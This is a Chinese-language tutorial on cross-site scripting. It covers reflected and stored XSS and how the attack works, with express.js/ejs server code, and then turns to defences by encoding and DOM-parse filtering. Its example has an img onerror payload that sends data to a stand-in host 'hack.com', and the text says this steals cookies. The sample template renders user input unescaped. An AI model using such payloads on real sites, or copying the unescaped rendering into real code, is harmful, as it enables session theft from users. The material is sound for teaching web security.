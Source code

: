 #### 1.什么是xss

xss就是跨站脚本工具cross site scripting。为了不和层叠样式表css名称一样。缩写叫做xss。
恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的

#### 2.xss攻击的场景

1.反射型攻击

这类攻击方式主要借助URL来实施。URL的构成分为协议、域名、端口、路径、查询几部分构成。
XSS往往在“查询”部分发现漏洞构造攻击代码实施攻击，所谓“反射”可以理解为hacker并不会直接攻击客户，而是通过URL植入，用户点击url访问到服务器的数据，获得查询的html，植入到用户页面完成攻击。

https://www.toutiao.com/search?item=热点新闻
协议     域名             路径    查询

2.存储类攻击

存储型攻击方式和反射型最大的区别就是不通过URL来传播，而是利用站点本身合法的存储结构，比如评论。任何用户都可以通过站点提供的接口提交评论内容，这些评论内容都被存储到服务器的数据库。当用户访问这些评论的时候，服务器从数据库提取内容插入到页面反馈给用户。如果评论内容本身是具备攻击性内容，用户无一幸免。

#### 3.xss的工作原理

反射型和存储型xss的工作原理：
1.构造攻击代码
2.服务端提取并写入HTML
3.浏览器解析，XSS执行

例子：

```
//反射型xss攻击
https://www.toutiao.com/search?item=<img onerror="new Image().src='//hack.com?c=' src='null'>"
服务端提取并写入HTML
我们以 Node.js 应用型框架express.js为例：
服务端代码(express.js)
router.get('/', function (req, res, next) {
    res.render('index', {
        title: 'Express',
        search: req.query.item
    });
});
//直接渲染到了html，这段代码的含义是告诉浏览器加载一张图片，图片的地址是空，根据加载机制空图片的加载会触发Element的onerror事件，这段代码的onerror事件是将本地cookie传到指定的网站。
ejs模板
<p>
    <%- search %>
</p>
这里列举了以反射型为主的服务端代码，通过获取URL的查询res.query.item,最后在模板中输出内容。对于存储型的区别是通过数据库拿到对应内容，模板部分一致。
```

#### 4.xss防范措施

1.编码和DOM Parse和过滤

对于反射型的代码，服务端代码要对查询进行编码，主要目的就是将查询文本化，避免在浏览器解析阶段转换成DOM和CSS规则及JavaScript解析。
从XSS工作的原理可知，在服务端进行编码，在模板解码这个过程对于富文本的内容来说，完全可以被浏览器解析到并执行，进而给了XSS执行的可乘之机。
为了杜绝悲剧发生，我们需要在浏览器解析之后进行解码，得到的文本进行DOM parse拿到DOM Tree，对所有的不安全因素进行过滤，最后将内容交给浏览器，达到避免XSS感染的效果。
